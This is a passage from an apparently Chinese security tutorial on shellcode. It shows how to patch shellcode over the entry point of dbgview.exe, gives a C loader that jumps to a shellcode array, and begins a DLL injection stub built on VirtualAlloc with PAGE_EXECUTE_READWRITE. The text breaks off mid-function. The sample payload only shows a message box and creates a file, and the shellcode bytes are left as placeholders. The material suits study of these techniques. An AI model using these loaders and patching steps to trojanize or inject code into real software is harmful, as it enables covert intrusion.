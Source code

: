 具体功能实现时只需要记住要将函数内所用到的字符串按照下图数组方式声明即可，这里我们写了示例的功能为 弹出一个消息框
提示hello,然后创建一个1.txt文档。

![图片.png](https://image.3001.net/images/20200327/1585285833_5e7d8ac907d94.png!small)

图 6 b.work.cpp具体功能实现  

# 三、执行shellcode

框架代码写好之后，我们运行一下会在项目目录里面生成一个sc.bin文件，这个文件中我们使用010Editor打开sc.bin即可看到生成的shellcode。

![图片.png](https://image.3001.net/images/20200327/1585286717_5e7d8e3db7a9c.png!small)
图7 生成的shellcode

## 下面介绍几种shellcode运行方式：

### 1、（使用010Editor直接复制出来shellcode）直接替换某程序的二进制

例如我们想让dbgview.exe运行我们生成的shellcode

第一步：我们使用lordPE查看dbgview.exe程序的入口点。

![图片.png](https://image.3001.net/images/20200327/1585287126_5e7d8fd6314e1.png!small)

然后使用010Editor打开dbgview.exe找到入口点位置，从入口点位置删除掉我们需要替换进去的shellcode大小的字节，然后替换成我们的shellcode，保存运行即可执行我们的shellcode。

### 2、把shellcode直接写到代码中生成exe程序运行（源码A）、或者生成dll再写注入器或者使用工具注入到某进程中（源码B）

源码A

    
    
    #include <windows.h>
    #include <stdio.h>
    #pragma comment(linker, "/section:.data,RWE")
    unsigned char shellcode[] = "\xfc\xe8\x89\x00\x00\x00\x60\x89........在这里写入shellcode";
    void main()
    {
        __asm
        {
            mov eax, offset shellcode
            jmp eax
        }
    }
    

源码B

    
    
    // dllmain.cpp : 定义 DLL 应用程序的入口点。
    #include "stdafx.h"
    #include<windows.h>
    #include<iostream>
    //data段可读写
    #pragma comment(linker, "/section:.data,RWE") 
    HANDLE My_hThread = NULL;
    //void(*ptrceshi)() = NULL;
    typedef void(__stdcall *CODE) ();
    unsigned char shellcode[] = "x00\x49\xbe\x77\x69\x6e\x.........在这里填入shellcode";
    DWORD  WINAPI ceshi(LPVOID pParameter)
    {
        PVOID p = NULL;
        if ((p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)